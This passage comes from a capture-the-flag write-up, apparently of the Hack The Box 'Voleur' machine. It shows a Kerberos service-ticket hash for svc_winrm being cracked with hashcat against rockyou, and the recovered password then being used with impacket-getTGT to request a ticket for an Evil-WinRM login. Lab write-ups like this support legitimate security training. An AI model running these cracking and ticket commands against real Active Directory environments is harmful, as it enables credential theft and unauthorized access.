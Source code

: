 Saved these both hashes to separate hash files.

Using **hashcat** to crack those hashes.

We couldn’t able to crack the hash of lacey.miller@voleur.htb, but we cracked it for svc_winrm.

```bash
hashcat -m 13100 svc_winrmkrbhash.txt /usr/share/wordlists/rockyou.txt
```

![image.png](/assets/images/Voleur_HTB/image%2021.png)

saved these creds to the creds.txt file.

**Now again we request a TGT for the svc_winrm user, to login with Evil-winrm.**

```bash
impacket-getTGT voleur.htb/svc_winrm:'AFireInsidedeOzarctica980219afi'
```

![image.png](/assets/images/Voleur_HTB/image%2022.png)
